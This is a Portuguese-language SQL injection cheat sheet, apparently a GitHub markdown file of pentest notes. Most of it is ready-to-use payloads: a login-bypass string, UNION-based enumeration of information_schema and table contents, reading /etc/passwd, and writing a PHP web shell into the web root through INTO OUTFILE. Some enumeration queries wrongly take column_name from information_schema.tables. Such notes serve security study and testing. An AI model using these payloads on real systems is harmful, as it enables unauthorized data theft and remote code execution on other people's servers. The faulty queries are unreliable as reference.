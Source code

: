 # SQL Injection (SQLi)

## Bypass Authentication
Uma forma de burlar formulários de login que utilizam requisições SQL é alterar a query criando uma lógica sempre verdadeira e comentando o resto do código. Primeiro envie caracteres especiais como `\` e `'` e analise o comportamento da aplicação. Confirmando a vulnerabilidade de SQLi utilize um payload que será sempre verdadeiro como no exemplo:

`' or 1=1#`

## SQL Error Based

É um SQLi baseado em erro, testamos a aplicação enviando caracteres como `\` ou `'` e recebemos um erro.    

### Descobrindo quantidade de colunas da tabela

Para descobrir a quantidade de colunas na tabela e onde os dados estão sendo retornados na página, utilize `' UNION SELECT 1 %23` e vá incluindo outros valores após o 1 no select, até a consulta retornar os valores utilizados no select refletidos na página.  

`http://www.alvo.com.br/info.php?p=' union select 1,2,3,4,5 %23'`

Outra forma seria utilizando `ORDER BY 1` e tentando ordenar a consulta pelo número da coluna. Vá aumentando o valor de 1 até a aplicação indicar que não existem mais colunas.

`http://www.alvo.com.br/info.php?p=' order by 6 %23'`

### Exploração

Após identificar a quantidade de colunas e quais estão sendo refletidas na página, utilize comandos de SQL no lugar das colunas refletidas para exibir a resposta da consulta.

`http://www.alvo.com.br/info.php?p=' union select 1,2,version(),user(),database() %23'`

### Bypass Addslash

Algumas aplicações podem adicionar uma ``\`` no valor do parâmetro ao tratar as informações, essa função pode acabar quebrando a nossa query. Uma forma de realizar o bypass é enviando o valor do parâmetro em ASCII.

Para converter uma string em ASCII Decimal utilize:
`echo -n "valor" | od -An -tDC`



**Comandos:**  
Retornar o nome de todas as tabelas do information_schema  
`' union select 1,2,table_name,4,5 from information_schema.tables %23'`

Retornar o nome de todas as tabelas de um banco específico  
`' union select 1,2,table_name,4,5 from information_schema.tables where table_schema="nome_banco" %23'`

Retornar o nome de todas as colunas de um banco  
`' union select 1,2,column_name,4,5 from information_schema.tables where table_schema="nome_banco" %23'`

Retornar o nome de todas as colunas de uma tabela  
`' union select 1,2,column_name,4,5 from information_schema.tables where table_schema="nome_banco" and table_name="nome_tabela" %23'`

Retornar valores de uma tabela  
`' union select 1,2,nome_coluna1,nome_coluna2,5 from nome_tabela %23'`
`' union select 1,2,concat(nome_coluna1,':',nome_coluna2),4,5 from nome_tabela %23'`

Ler arquivos do servidor  
`' union select 1,2,load_file("/etc/passwd"),4,5 %23'`

Criar arquivos no servidor  
`' union select 1,2,"<?php system($_GET['p']); ?>",4,5 INTO OUTFILE "/var/www/html/rce.php"%23'`